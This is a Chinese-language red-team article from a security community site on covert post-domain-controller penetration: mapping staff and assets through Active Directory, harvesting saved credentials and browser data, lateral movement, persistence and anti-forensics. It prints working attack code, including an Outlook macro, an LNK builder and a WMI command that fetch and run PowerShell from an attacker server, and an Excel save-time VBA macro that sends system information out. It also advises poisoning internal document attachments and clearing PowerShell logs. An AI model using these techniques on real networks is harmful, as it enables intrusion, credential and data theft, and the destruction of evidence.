








# 从“拿下域控”到“主导业务”—面向组织-人员-资产链的高阶隐蔽渗透方法论

-先知社区

> **来源**: https://xz.aliyun.com/news/18529  
> **文章ID**: 18529

---

# 仅仅拿下了域控？

## 前言

接管全域过后，拔剑四顾心茫然。**仅仅拿下了域控？**

域控究竟代表了什么？哪怕你dump下了所有用户的密码hash等数据，面对画不完的拓扑，被拦截的流量，下一秒运维就会发现的危机，哪怕手握重器都有心无力。**那么怎么在尽可能短的时间内扩大化战果？怎么找到真正有价值的东西？这是中文语境中大多数渗透文章缺失的部分**

众所周知，**拿下域控只是渗透中的一环**。如何定位重要资产并拿下重要的内容，以及立足于内网和实战中规避明显流量特征信息收集，而不是傻瓜式的自动化用fscan、Nmap简单套一些线程做完整的信息收集。

这是渗透核心问题：如何绕过"脚本小子阶段"的暴力面扫与信息堆叠，转而基于目标导向的资产定位、隐蔽行动、实战级信息收集与行动策略调整。

**核心理念：不是收集越多信息越强，而是定位越准、干扰越少才有生存空间。**

从"网段->主机->服务"的流量逻辑转变为"组织->业务->人员->资产->薄弱点"的思维逻辑。

**关键点：目标导向资产链**

组织结构分析 → 关键人员识别 → 业务系统映射 → 数据流向分析 → 安全策略评估 → 攻击路径规划

## 一、组织结构分析：绕开FScan逻辑的隐蔽信息收集

fscan + rdpscan + MS17xxx一把梭，最多会吃EDR拉黑/运维踢出。因此我们要的是非特征性信息收集链：



### 基于组织架构的轻量枚举 - 一条命令一批信息

|  |  |  |
| --- | --- | --- |
| 操作 | 工具/命令 | 作用 |
| 获取当前主机与邻接主机信息 | net view, arp -a, WMI查询 | 无需任何扫描 |
| AD结构探测（无密码） | ldapsearch, bloodhound-python，PowerView | 可选用Kerberoasting收集用户信息 |
| DNS递归探测 | nslookup -type=any domain.local + zone walking | 无需大范围端口扫描 |
| SMB管道探测邻域 | net group /domain、net session等 | 获取连接路径和关系图谱 |
| 缓存凭据探测 | vaultcmd, mimikatz, WMI事件探测 | 指向高权限账户位置 |
| 进程与服务观察 | tasklist, Get-WmiObject Win32\_Service | 辅助定位关键业务主机 |

### 利用现有"可见面"搜集内部信息

作为域控，有权限访问这个业务的势必是**技术人员**&**企业高管**，那么从域控入手，思考技术人员的配置习惯，以及到底都是谁登录访问了这台机器，都很有必要作为我们收集的方向。

* **GPO配置导出**：大量安全策略信息，包括认证策略、共享策略等
* **注册表横向情报**：如自动登录、共享缓存、历史连接信息
* **登录日志本地关联**：可通过"谁登录过这台机器"反推出"谁可能是管理员"

**域控机上的实战信息收集清单：**

#### 域结构情报（组织、人、权限三位一体）

```
# OU列表（组织结构）
Get-ADOrganizationalUnit -Filter * | select Name, DistinguishedName

# 域用户列表（含描述字段很重要）
Get-ADUser -Filter * -Properties DisplayName, Description, EmailAddress | Format-List

# 域安全组
Get-ADGroup -Filter * | select Name, GroupScope, Description
```

看"描述""Email地址""DisplayName"可以挖人找业务、识别高价值目标。

#### 权限链分析（导出关系 本地分析）

**BloodHound 导出数据：**

如果你不想跑 full ingestor，可以用轻量化方式导出：

```
# 用户-组关系、主机信息、ACL 权限等
SharpHound.exe -c All -domain YOURDOMAIN.local -zipfilename data.zip
```

导出的 data.zip 本地分析即可，不需要网络回传。

## 二、关键人员识别：以人为核心建立信息收集视角

大多数实战目标都不是机器，而是人。**围绕"人"来做信息收集**，比堆资产更有效。

也就是我一直强调的内容：内网中一切流量都变得明显，既然拿下了域控==>那么将由常规的网络空间转为管理视角的业务空间

### 典型策略

|  |  |
| --- | --- |
| 信息源 | 目的 |
| AD中的description字段 | 找到业务、工号、邮箱、VIP标识 |
| 邮箱地址中的"别名" | 分辨职务和层级（如 zhangy-vp@corp.local） |
| 共享文档中检索"密码"、"外包"、"RDP"等关键词 | 获取敏感操作线索 |
| 持续登录机器中识别多账户环境 | 哪些人"常驻"在哪些资产 |
| SMTP/邮件服务器日志 | 发现与外部联系的关键资产 |



### 凭据相关（不是mimikatz，而是静态/行为推演）

**看谁来过域控：**

```
# 安全日志：查看 Event ID 4624（登录）
Get-WinEvent -LogName Security | ? {$_.Id -eq 4624} | select -First 100 | Format-List
```

**查询本机是否保存了密码/RDP历史：**

```
# Vault 凭据
vaultcmd /listcreds:"Windows Credentials"

# RDP历史（注册表）
reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"
```

## 三、业务系统映射：从资产定位到业务理解

### 组策略情报（看策略，看谁被管）

```

# 本地有效策略
gpresult /R

# 全局策略列表
Get-GPO -All | select DisplayName, GpoStatus, CreationTime

# GPO中脚本、映射、计划任务（爆破定制逻辑）
Get-GPOReport -Name "XXX策略" -ReportType HTML -Path C:\GPO-XXX.html
```

注意 GPO 中常嵌脚本、计划任务映射、共享驱动器等"业务手脚"。

### 关键资产与服务定位（不是扫，是读）

**查询域中计算机对象：**

Get-ADComputer -Filter \* -Properties OperatingSystem, LastLogonDate | Format-Table Name, OS, LastLogonDate

重点看命名规律，如 sql-prod-01、sap-fin-02、jump-vpn-01 、DB39、storage-88等业务侧命名。

### 重要资产定位方法论（不靠扫描靠推演）

#### 基于组织结构做推演

一般也可以**通过主机名**做对应的推演

**关键问题：**

* 谁是**业务管理？**
* 谁负责敏感数据（如**财务、人事、R&D**）？
* 谁有**更高权限或接口权限？**

#### 结合线索构建目标资产优先级

|  |  |
| --- | --- |
| 线索类型 | 实例 |
| 登录频率高 | 某主机被多人登录、夜间活跃 |
| 数据量大 | 文件夹/共享目录大，含数据库连接符 |
| 被访问最多 | 日志中频繁出现RDP/SMB访问 |
| 服务关联性强 | DNS服务器、域控、堡垒机、工控主机 |

## 四、数据流向分析：主动"听人说话"

### 事件日志 + 文件痕迹

**看用户或系统留下的痕迹：**

```
# 最近被访问文件
Get-ChildItem -Path C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent

# Office中最近打开的文件
dir "C:\Users\*\AppData\Roaming\Microsoft\Office\Recent"
```

→ 能看到谁在操作什么**搜索含"密码"、"账号"、"VPN"的文件内容：**

```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.docx -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|vpn|账号|密码" -Encoding UTF8
```

### 深入用户本身：浏览器数据与用户行为分析

当你拿到了域控，接下来的目标应该是深入到具体的办公机，挖掘用户的真实行为数据。**这里不再是传统的"拿Shell->提权->横向"的机械流程，而是要像一个真正的企业用户一样，通过看似正常的数字足迹来构建完整的攻击路径。**

#### HackBrowserData

浏览器是现代用户最重要的数字入口，也是信息泄露的重灾区。相比传统的内存dump或注册表挖掘，浏览器数据挖掘更加精准、高效。



**浏览器数据收集策略：**

```
# 基础收集（适用于Chrome、Firefox、Edge等主流浏览器）
./HackBrowserData -b chrome -f json -dir ./output
./HackBrowserData -b firefox -f json -dir ./output
./HackBrowserData -b edge -f json -dir ./output

# 批量收集所有浏览器数据
./HackBrowserData -b all -f json -dir ./browser_data
```

**但这里有个坑点：你立足于域控 作为nt/system权限的同时无法直接接触到目标用户上下文，就会由于无法获取用户DPAPI Key导致无法解密用户Chrome浏览器的Cookie以及loginData表， 因此 获取域控并不代表获取一切**

**下面也简单介绍几个方法**

**方法1：迁移到用户 Session 再解密**

1. 查用户在哪个 Session：

```
query user
```

1. 用 `tscon` 切换：

```
tscon <session_id> /dest:console
```

1. 再执行解密工具（如 HackBrowserData），这时你就在用户的上下文中，也就拥有了解密权限。

**方法2：等用户登录，自动抓数据**

1. 放个计划任务、WMI事件、LNK、宏脚本等
2. 等用户登录后，在他会话里触发你的 payload这种方法就比较需要用户本身的交互，隐蔽性的保证我会在后续的方案中提到

**从浏览器数据中提取情报：**

**密码管理分析：**

* 保存的登录凭据（内网系统、云服务、VPN等）
* 自动填充的表单数据（可能包含敏感信息）
* 支付信息和个人资料

**业务系统映射：**

* 访问历史中的内网域名和IP
* 书签中的业务系统分类
* 下载记录中的敏感文件

**社交工程素材：**

* 搜索历史揭示的兴趣爱好
* 社交媒体账号和活动轨迹
* 个人习惯和行为模式

#### 用户行为分析

**文件系统考古：**

不同于暴力搜索，这里要做的是"考古式"的挖掘：

```
# 用户最近活动的文件
Get-ChildItem -Path C:\Users\*\Desktop -Recurse -Include *.lnk | 
ForEach-Object { 
    $shell = New-Object -ComObject WScript.Shell
    $shortcut = $shell.CreateShortcut($_.FullName)
    [PSCustomObject]@{
        Name = $_.Name
        TargetPath = $shortcut.TargetPath
        WorkingDirectory = $shortcut.WorkingDirectory
        LastWriteTime = $_.LastWriteTime
    }
}

# Office文档的元数据分析
Get-ChildItem -Path C:\Users\*\Documents -Include *.docx,*.xlsx,*.pptx -Recurse |
ForEach-Object {
    $doc = New-Object -ComObject Word.Application
    $document = $doc.Documents.Open($_.FullName, $false, $true)
    [PSCustomObject]@{
        FileName = $_.Name
        Author = $document.BuiltInDocumentProperties.Item("Author").Value
        Company = $document.BuiltInDocumentProperties.Item("Company").Value
        LastModifiedBy = $document.BuiltInDocumentProperties.Item("Last Author").Value
        CreationDate = $document.BuiltInDocumentProperties.Item("Creation Date").Value
    }
    $document.Close()
    $doc.Quit()
}
```

**网络连接历史分析：**

```
# DNS缓存分析
ipconfig /displaydns | Select-String "Record Name" | 
ForEach-Object { $_.ToString().Split(":")[1].Trim() } |
Sort-Object | Get-Unique

# 持久化连接分析
netstat -an | Select-String "ESTABLISHED"

# WiFi连接历史
netsh wlan show profiles | Select-String "All User Profile"
```

**应用程序使用模式：**

```

# 最近运行的程序
Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" |
Select-Object -Property * -ExcludeProperty PS*

# 跳转列表分析（显示用户最常用的文件和应用）
Get-ChildItem "$env:APPDATA\Microsoft\Windows\Recent\AutomaticDestinations" -Filter "*.automaticDestinations-ms"
```

## 五、隐蔽持久化

### 持久化与横向移动也应贴近业务流，不制造异常流量

要避免"显眼"特征，就不能搞那些显式的smb/brute/全流量扫描。

#### 常规思路&文件不落地的简单隐蔽打法

**1. 利用AD中继 PTH全域** NTLM中继攻击捕获目标的Net-NTLM Hash，并使用Hash传递（Pass-the-Hash, PtH）技术直接认证到其他主机，无需在目标主机上写入文件，实现横向移动。

```
# 直接上cme，这个比较常规，就是cme组合拳上线
crackmapexec smb <Target_IP> -u <Username> -H <NTLM_Hash> -x "<command>"

# 不过就目前而言 nxc的效果会比cme好些
```



**2. 利用WMI执行远程命令（无二进制落地）** Windows Management Instrumentation (WMI) 是Windows系统管理接口，可通过DCOM或WinRM协议远程执行命令，无需在目标主机上写入二进制文件，避免触发传统防病毒检测。

**内存执行：**

```
Invoke-WmiMethod -ComputerName  -Class Win32_Process -Name Create -ArgumentList "powershell.exe -ep bypass -c Invoke-RestMethod -Uri http:///malicious.ps1 | Invoke-Expression"
```

规避检测可以使用加密通道（如WinRM over HTTPS）或混淆脚本以降低被检测概率。

**3. 利用RDP共享剪贴板进行数据搬运（非网络传输）**

**流程：**

* 建立RDP会话：攻击者需具备目标主机的RDP访问权限（通过凭据或漏洞利用）
* 启用剪贴板共享：确保RDP客户端（如mstsc.exe）配置允许剪贴板共享（默认启用）

数据提取：

* **在目标主机上，运行命令收集敏感数据**，将结果复制到剪贴板

```
Get-Content C:\sensitive.txt | Set-Clipboard
```

数据回传：

* **反向操作，将恶意脚本或命令通过剪贴板复制到目标主机**，执行：

```
Get-Clipboard | Invoke-Expression
```

**4. 借助Outlook宏或LNK文件实现"无感知"植入**

**Outlook宏：**

```
Sub AutoOpen()
    Shell "powershell.exe -ep bypass -c Invoke-RestMethod -Uri http://<attacker_server>/shell.ps1 | Invoke-Expression", vbHide
End Sub
```

**LNK文件：**

```
$Shell = New-Object -ComObject WScript.Shell
$Shortcut = $Shell.CreateShortcut("office365.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-ep bypass -c Invoke-RestMethod -Uri http://<attacker_server>/office365.ps1 | Invoke-Expression"
$Shortcut.Save()
```



[在 Outlook 中创建宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/在-outlook-中创建宏-ffc49e8c-0e5b-4daa-912d-e68c6c46bf27)

[常见钓鱼招式-先知社区](https://xz.aliyun.com/news/9787)

**但本质还是需要交互，这是很不稳定的做法，更适合作为前期打点的入口。**

#### 真正的隐蔽方案

综上四种方法，都是比较常规的。我认为这种隐蔽不叫隐蔽，只是不上线C2罢了，这和反弹一个非交互式shell有什么区别呢？它只是更慢热而已，而非所谓的贴近业务做隐蔽。它们根本没有脱离入侵者行为模型，只是少了一些被查杀的风险而已，本质还是可预测的攻击行为。

**方案一：借用"内部运维平台"的业务流程做跳板**

**示例流程：**

1. 发现某内部自动化平台（如Ansible、Jumpserver、SaltStack、K8S API
2. 在运维系统的配置中植入小段命令（或回调URL）
3. 可用于横向部署或信息收集，且路径可继承现有的执行上下文



**优势：** 既没有新的连接，同时这个命令的签名也是合法应用提供的，会被自动归因为系统用户行为。

**方案二：构造"数据流伪装"的隐蔽横向通信**

**示例机制：** 在企业内工作人员的日常业务文档（如**Excel报价单**）中嵌入VBA宏，触发"保存时"事件，收集目标系统信息并通过伪装的常规流量回传，规避网络监控。**用户保存文档时自动触发，无需额外交互。**

```
Private Sub Workbook_BeforeSave(ByVal SaveAsUI As Boolean, Cancel As Boolean)
    Dim cmd As String
    Dim result As String
    ' 收集系统信息
    cmd = "cmd.exe /c whoami & ipconfig & tasklist"
    result = CreateObject("WScript.Shell").Exec(cmd).StdOut.ReadAll
    
    ' 方法1：通过msxml2.xmlhttp发送HTTP
    Dim http As Object
    Set http = CreateObject("MSXML2.XMLHTTP")
    http.Open "POST", "http://<attacker_server>/upload", False
    http.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
    http.Send "data=" & EncodeBase64(result) ' Base64编码数据
    
    ' 方法2：通过WebDAV或SMB保存到共享
    Dim fs As Object
    Set fs = CreateObject("Scripting.FileSystemObject")
    fs.CreateTextFile "\<SMB_Server>\share\env.txt", True
    fs.Write result
End Sub

' Base64编码函数
Private Function EncodeBase64(text As String) As String
    Dim xml As Object
    Set xml = CreateObject("MSXML2.DOMDocument")
    Dim node As Object
    Set node = xml.createElement("base64")
    node.dataType = "bin.base64"
    node.Text = text
    EncodeBase64 = node.nodeTypedValue
End Function
```

不过**如果只是想拿来钓鱼放到用户的桌面**，就太粗暴了，这种情况下一般**需要在组织内部OA系统进行投毒，修改某些工单的附件以此污染内部的主机**

**方案三：利用打印服务/扫描仪/ERP插件做隐蔽数据收集与横向**

\*\*打印/扫描服务（如Spooler服务）\*\*通常以SYSTEM权限运行，**网络连接广泛**（如共享打印机）。ERP插件（如SAP、Oracle E-Business Suite插件）常集成于业务流程，可访问敏感数据。

一般情况下，可以**通过探活内网snmp协议展开对打印设备的入侵**，很多打印机 **SNMP 社区口令默认为** `private` **可写**，你可以做这些事：

* 利用打印日志推用户名

```
snmpwalk -v2c -c public <IP> .1.3.6.1.2.1.43.18.1.1.8
→ 打印任务发起人：zhanglin.hr, lixiang.fin, huangwei.ceo
```

* 反向推测业务分布

```
PRT-FIN-02, PRT-HR-03, PRINT-F3-CEO
```

你可以据此判断：

* 哪些业务线在哪些楼层
* 哪些区域有高权限使用者（CEO打印机）
* 某些高端设备会维护内建DNS缓存（HP、Ricoh设备），可以通过厂商MIB拉取缓存记录，从而就可以辅助识别网段边界、跳板位置、内部DNS信息

*（由于在这方面研究比较少，所以就不展开叙述了）*

打印服务渗透wiki



**方案四：利用网络设备（路由器/无线AP）构建隐蔽持久化跳板**

内网中除了传统主机和服务器，**企业路由器、三层交换机、无线AP等网络设备**往往被安全防护系统“放过”。

**类比解释**

你是攻击者，主机是保安天天查身份证，EDR 就是摄像头在识别谁在动手。你现在如果：

* 拿了个锁匠工具（Fscan、Powershell、Mimikatz）上来开门，系统会报警
* 用个奇怪的指令连接别人机器（WinRM/WMI/SMB），EDR 马上拉红
* 一上线 Beacon，立马就触发主机行为分析

这时候你再看路由器：

* 它每天都在发包、收包、转发、NAT，这是它的“本职工作”
* 它经常和上百个终端建立连接，不是异常，而是常态
* 它本来就开放了 SSH、Telnet、Web 管理后台，没有人会觉得“一个路由器在监听端口很奇怪”**具体攻击手段也和前面的打印设备类似，区别的是它的终端远比打印设备的要完整，打印设备的PTCshell等协议在市面上已经很少有开源工具作为支持，而只要你进了路由器的后台，无论是tcpdump用户流量的trick，还是构造 NAT 映射：让它转发端口给你主控机都是隐蔽 安全的操作**

你不在线，你的跳板在线；你不扫网，你的跳板在旁路做转发——**这才叫真正的隐身操控**。

### 隐蔽性提升策略

**流量打散**：避免使用固定C2通道、使用多协议（HTTP、DNS、SMB over namedpipe） **存储隐匿**：恶意DLL注入到合法服务进程中，如svchost、spoolsv **行为嵌套**：伪装成定时任务或用户操作逻辑（如Outlook加载项） **数据 exfil**：打印队列、计划任务、截图偷发到内网SMTP或文件服务器

## 六、攻击路径规划：情报融合与攻击路径规划

### 用户价值评估矩阵

|  |  |
| --- | --- |
| 维度 | 评估标准 |
| 组织地位 | AD中的组织层级、管理关系 |
| 系统权限 | 对关键系统的访问权限 |
| 业务接触面 | 接触敏感业务的程度 |
| 技术敏感度 | 对安全工具的熟悉程度 |
| 社交价值 | 在组织中的影响力 |

### 基于情报的精准投递

不再是广撒网式的横向移动，而是基于用户画像的精准投递：

```
# 示例：针对财务部门的定向攻击
# 1. 识别财务相关用户
$FinanceUsers = Get-ADUser -Filter * -Properties Department | 
Where-Object { $_.Department -like "*财务*" -or $_.Department -like "*Finance*" }

# 2. 分析其常用系统和工作模式
# 3. 设计贴合其工作流程的载荷投递方式
```

### 持久化策略的业务化伪装

基于收集到的用户行为数据，设计更加隐蔽的持久化方案：

**场景一：利用用户的Office使用习惯：也就是前面提到的OA投毒**

**场景二：利用用户的软件使用模式** 如果发现用户经常使用某个特定软件，可以通过DLL劫持或插件机制实现持久化，这样的行为更难被察觉。

[这里推荐Loki C2的思路](https://www.freebuf.com/articles/es/439859.html)

Loki的攻击向量完全绕过了针对渲染器进程的全部安全加固措施。它通过劫持应用的启动脚本，直接在**主进程**的上下文中执行代码。由于主进程拥有与生俱来的、不受限制的Node.js权限，渲染器进程的沙盒化对此攻击毫无意义。

它通过修改应用启动脚本来完成攻击。其最精妙的设计在于init.js后门启动器，这是一个精心设计的状态机，用于管理寄生虫与宿主的生命周期。

### 反溯源与痕迹清理

在深度信息收集的同时，也要考虑反溯源

**行为模式伪装：**

```
# 模拟正常用户的文件访问模式
# 在收集信息的同时，也要访问一些正常的业务文件
Get-ChildItem "C:\Users\$env:USERNAME\Documents" -Recurse |
Get-Random -Count 5 | ForEach-Object { Get-Content $_.FullName -Head 1 }

# 模拟正常的网络访问
Invoke-WebRequest -Uri "https://company-portal.com" -UseBasicParsing
```

**日志污染与清理：**

```
# 选择性清理相关日志
wevtutil cl "Windows PowerShell"
wevtutil cl "Microsoft-Windows-PowerShell/Operational"

# 或者注入正常的日志条目来掩盖异常行为
```

## 总结

可以从上面的三个方案看出来，真正隐蔽的横向和持久化不应建立在"技术规避"上，**而应建立在"业务拟态"与"角色继承"上**。都是把自己当成业务中的一环，思考他们平时接触的服务以及工作的逻辑，做成**类似水坑攻击的打法**。

### 整体策略小结

|  |  |  |
| --- | --- | --- |
| 优先级 | 收集目标 | 目的 |
| 高 | 用户、组、描述字段 | 识别高价值目标 |
| 高 | 组策略 + 共享配置 | 查找潜在控制路径 |
| 中 | 凭据路径、RDP记录 | 判断行为 + 凭据可用性 |
| 中 | 主机命名规律 + 访问痕迹 | 判断资产属性 |
| 低 | SMB共享文档、日志内容 | 侧写业务内容 |



## 结语

高阶红队渗透的核心在于\*\*从技术导向转向业务导向，从工具依赖转向思维推演，从暴力扫描转向精准定位。真正的隐蔽不是技术层面的规避，\*\*而是业务层面的拟态。

拿到域控之后，我们**要做的不是继续"攻击"，而是要成为这个网络环境中的"业务大水坑"**。通过深度的用户行为分析和情报融合，我们可以构建出比任何自动化工具都要精准的攻击路径。

记住：**在高阶渗透中，信息比权限更重要，理解比占领更有价值。**
